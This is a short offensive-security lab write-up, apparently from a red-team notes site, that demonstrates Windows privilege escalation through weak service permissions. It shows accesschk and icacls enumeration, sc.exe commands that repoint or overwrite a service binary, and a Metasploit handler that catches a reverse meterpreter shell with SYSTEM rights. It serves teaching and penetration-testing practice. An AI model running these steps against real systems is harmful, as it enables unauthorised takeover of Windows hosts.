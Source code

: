 # Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code title="attacker@victim" %}
```text
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode %}

Below indicates that the user `mantvydas` has full access to the service:

![](../../.gitbook/assets/annotation-2019-05-21-205403.png)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code title="attacker@victim" %}
```text
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-205633.png)

Let's fire up a multihandler in mfsconsole:

{% code title="attacker@kali" %}
```text
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode %}

...and start the vulnerable service:

{% code title="attacker@victim" %}
```text
.\sc.exe start evilsvc
```
{% endcode %}

..and enjoy the meterpreter session:

![](../../.gitbook/assets/annotation-2019-05-21-210027.png)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code title="attacker@kali" %}
```text
run post/windows/manage/migrate
```
{% endcode %}

Even though the service failed, the session was migrated and saved:

![](../../.gitbook/assets/annotation-2019-05-21-210541%20%281%29.png)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code title="attacker@victim" %}
```text
sc.exe qc evilsvc
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-210916.png)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for \(M\)odify or \(F\)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code title="attacker@victim" %}
```text
icacls C:\service.exe
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211128.png)

Since c:\service.exe is \(M\)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code title="attacker@victim" %}
```text
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-21-211232.png)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](../../.gitbook/assets/annotation-2019-05-21-211349.png)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](../../.gitbook/assets/annotation-2019-05-21-212438.png)

